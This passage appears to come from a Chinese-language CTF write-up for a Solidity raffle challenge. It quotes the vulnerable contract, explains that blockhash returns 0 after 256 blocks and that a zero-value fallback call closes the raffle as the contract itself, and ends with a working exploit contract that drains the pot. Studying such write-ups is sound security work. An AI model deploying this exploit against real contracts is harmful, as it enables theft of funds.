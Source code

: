        function collectReward() external payable ctf{
            require(raffleStopped);
            require(potentialWinner[msg.sender]);
            rewards[address(this)] += msg.value;
            if(winningTicket == ticketNumbers[msg.sender]){
                msg.sender.transfer(rewards[msg.sender]);
                msg.sender.transfer(rewards[address(this)]); 
                rewards[msg.sender] = 0;
                rewards[address(this)] = 0;
            }
        }

        function skimALittleOffTheTop(uint256 _value) external ctf{
            require(msg.sender==admin);
            require(rewards[address(this)]>_value);
            rewards[address(this)] = rewards[address(this)] - _value;
            msg.sender.transfer(_value);
        }

        function () public payable ctf{
            if(msg.value>=fee){
                this.buyTicket();
            }
            else if(msg.value == 0){
                this.closeRaffle();
            }
            else{
                this.collectReward();
            }
        }

    }
    ```

是一个抽奖，需要通过 buyTicket 买票获得资格，并且 ticketNumbers 为 (msg.value - fee)/10**8，结束抽奖需要调用 closeRaffle 函数，但是这也会取消抽奖资格。而最后抽中的 ticketNumbers 为最后一个买票的 blocknum 的 blockhash

这就有了一个漏洞，blockhash 只会计算最近的 256 个块，再早的结果会是 0

但是如果使用两个合约一个来关闭抽奖，另一个领奖的话，不能取出全部的余额（因为关闭抽奖的账户买票的钱不会转出来）。因此需要通过 fallback 函数，value 为 0 的时候会调用 closeRaffle，这会使 closeRaffle 判断的 msg.sender 为自身。所以只需要买下票，然后等待出 256 个块之后触发 fallback 然后再 collectReward 就好了

这里注意还要把题目合约地址通过调用 ctf_challenge_add_authorized_sender 加入白名单，才可以在 fallback 中调用自身函数

???+ done "exp"
    ```solidity
    contract Exploit {
        Raffle challenge;
        constructor(address addr) public {
            challenge = Raffle(addr);
        }
        function buyTicket() public payable {
            challenge.buyTicket.value(msg.value)();
        }
        function exp() public {
            address(challenge).call.value(0 ether)();
            challenge.collectReward();
        }
        function() public payable {}
        function destroy(address addr) public {
            selfdestruct(addr);
        }
    }
    ```

---